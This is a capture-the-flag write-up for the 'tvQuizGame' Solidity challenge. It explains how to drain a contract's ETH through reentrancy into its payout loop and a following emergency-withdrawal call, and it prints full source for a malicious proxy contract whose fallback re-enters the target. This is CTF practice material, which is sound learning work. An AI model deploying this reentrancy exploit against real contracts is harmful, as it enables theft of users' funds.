


# tvQuizGame
In this task we’re challenged with stealing all the ETH from the contract. We’re provided with the address of the contract and its source code and ABI. 

The contract has some interesting functions starting with:

```js
function inCaseOfEmergency() external {
    require(isContractInFailure == true);
    require(msg.sender.send(address(this).balance) == true);
}
```

If we manage to set “isContractInFailure” to “true” we’ll be able to send all ETH from the contract to ourselves. 

Variable “isContractInFailure” is set in the following function:

```js
function terminateTheContest() public {
    require(isCompetitionOpen == true);
    checkWinners();
    fillInTheAccounts();
    if(payWinnersProcess()){
        isCompetitionOpen = false;
    } else {
        isContractInFailure = true;
    }
}
```

So, we need to get the function “payWinnersProcess” to return “false”. 

```js
function payWinnersProcess() internal returns(bool) {
    uint256 i = nextTransaction;
    while(i < winnerAddresses.length) {
        if(!winnerAddresses[i].send(wonAmount[winnerAddresses[i]])) return false;
        i++;
    }
    nextTransaction = i;
    return true;
}
```
We can see that “payWinnersProcess” returns “false” when there is an error sending ETH to some address. Error can happen if there is not enough ETH in the contract and probably under some other conditions (me noob much). 

Trying to apply Reentrancy attack to this contract we notice that during “payWinnersProcess” function it is still possible to register to the guessing game using “tryYourLuck”:

```js
function tryYourLuck(uint8 submittedAnswer) public {
    require(now < creationTimestamp + 15 minutes);
    participantAddresses.push(msg.sender);
    responseSubmitted[msg.sender] = submittedAnswer;
}
```

The only requirement to register for the game is time being in range of 15 minutes since the contract creation. 
So, the flow of reentrancy attack using malicious contract might look like this:

```js
maliciousContract:
  TVQuizTime.tryYourLuck(12);
  TVQuizTime.terminateTheContest();

TVQuizTime:
  checkWinners();
  fillInTheAccounts();
  payWinnersProccess(); // calls the fallback function in maliciousContract upon sending ETH

maliciousContract:
  fallback():
    TVQuizTime.tryYourLuck(12);
    TVQuizTime.terminateTheContest();

TVQuizGame:
  checkWinners();
  fillInTheAccounts();
  payWinnersProccess(); // calls the fallback function in maliciousContract upon sending ETH

maliciousContract:
  fallback():
    TVQuizTime.tryYourLuck(12);
    TVQuizTime.terminateTheContest();

// and so on until TVQuizTime balance exhaustion 
```

Upon balance exhaustion in the TVQuizTime contract there still might be some ETH left on the balance, just not enough to send to the winners. But since we triggered the error and set “isContractInFailure” to “true”, we can get the remaining ETH using “inCaseOfEmergency”. 

Source code of malicious contract:

```js
pragma solidity ^0.6.4;

contract TVQuizTime {
    function tryYourLuck(uint8) public {}
    function terminateTheContest() public {}
}

contract ProxyPlox {
    
    address payable private contractOwner;
    
    constructor() public payable {
        contractOwner = msg.sender;
    }
    
    function callTryLuck(address _address) public {
        TVQuizTime(_address).tryYourLuck(12);
    }
    
    function callTerminate(address _address) public {
        TVQuizTime(_address).terminateTheContest();
    }
    
    fallback() external payable {
        callTryLuck(msg.sender);
        callTerminate(msg.sender);
    }
    
    function startDis(address _address) public {
        if (msg.sender == contractOwner) {
            callTryLuck(_address);
            callTerminate(_address);
        }
    }
    
    function getBack() public {
        contractOwner.transfer(address(this).balance);
    }
}
```

Screenshot of deploying malicious contract and calling “inCaseOfEmergency”:



Getting flag:



Screenshots above were taken during ctf-after-hours. 
The address of TVQuizTime during CTF (we hope not mistaken):
0x5827254ae3cab02f2603017ccd65074bc6c9ad20
The address of ProxyPlox contract during CTF:
0x9C0C915AD3B9A86DCa25b27dfD7Ced685ff9a157
The address of wallet calling “inCaseOfEmergency” during CTF:
0x7ceA06e09d0EcB782bc437fd45429dA5076A0f5A
